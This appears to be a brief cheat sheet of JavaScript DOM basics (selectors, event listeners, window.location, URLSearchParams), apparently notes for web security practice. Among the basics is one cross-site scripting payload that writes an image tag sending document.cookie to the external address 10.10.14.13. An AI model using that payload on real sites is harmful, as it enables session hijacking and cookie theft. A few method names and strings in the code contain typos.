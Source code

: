 # Document Object Model (DOM)

### Basics
```
console.log("Hello World!);

document.cookie


document.getElementById('1');

document.getElementByTagName('div');

document.getElementByClassName('list-items');

document.querySelector(#main-heading);

document.querySelectorAll('div');


document.write('something');

document.write('<img src="http://10.10.14.13/?'+document.cookie+'">');
```

### Event Listeners 
```
element.addEventListener("click", function);

element.addEventListener("mouseover", function);
```

### Window Objects

```
window.alert('1');
 
alert(prompt());

window.location = "http://127.0.0.1"

window.location.search
```

## URLSearchParams
```
http://127.0.0.1/?name=video#default=1
```

```
let querystring = window.location.search; // ?name=video
let urlParam = new URLSearchParams(querystring);
console.log(urlParam);
let value = urlParam.get('name');
console.log(value);
```

```
(new URLSearchParams(window.location.search)).get('name'); // video
```

```
document.location.hash // #default=1
<or>
location.hash // #default=1
```

```
document.location.href // http://www.somehost.com?name=video#default=1
```

```
document.location.href.indexOf("default="); // 29
```
